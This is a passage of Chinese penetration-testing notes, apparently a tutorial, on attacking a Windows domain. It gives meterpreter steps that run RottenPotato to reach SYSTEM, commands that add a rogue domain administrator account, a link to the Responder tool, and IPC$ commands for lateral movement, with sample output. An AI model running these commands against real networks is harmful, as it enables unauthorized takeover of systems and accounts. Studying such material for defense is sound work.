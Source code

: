```
```

```
#方法二,借用Rotten potato程序
https://github.com/foxglovesec/RottenPotato.git

meterpreter > use incognito
......
meterpreter > list\_tokens -u
......
WIN-2HU3N1\\Administrator
......
meterpreter > upload /root/Rottenpotato/rottenpotato.exe
Successfully......

meterpreter > execute -HC -f rottenpotato.exe
Successfully......

meterpreter > getuid
...NT AUTHORITY\\SYSTEM


```

4.6.2 添加域管理员

```
#cmd
net user mo 123456 /ad /domain            #添加域用户
net group "domain admins" mo /ad /domain  #加入域管理员组

net group "domain admins" /domain         #查看是否添加成功


#MSF
add\_user mo 123456 -h 1.1.1.2
add\_group\_user "Domain Admins" mo -h 1.1.1.2


```

在添加好可控制的域管理员后，可迭代使用 MSF 查询所存在的身份验证令牌

### 4.7 无凭证条件下的权限提升

Responder.py：[https://github.com/SpiderLabs/Responder.git](https://github.com/SpiderLabs/Responder.git)

0x05 域内横向移动分析与防御
----------------

### 5.1 常用指令

```
#IPC连接
net use \\\\192.168.100.190\\ipc$ "123456" /user:administrator
net use #查看已建立的连接
net use \\\\192.168.100.190\\ipc$ /del /y #删除建立的连接

#dir命令
dir \\\\192.168.100.190\\c$

  2019/06/22  16:47    <DIR>          .
  2019/06/22  16:47    <DIR>          ..
  2019/04/24  15:22    <DIR>          .ipynb\_checkpoints
  2018/11/05  15:05             4,760 1-numpy数值计算基础1.ipynb
```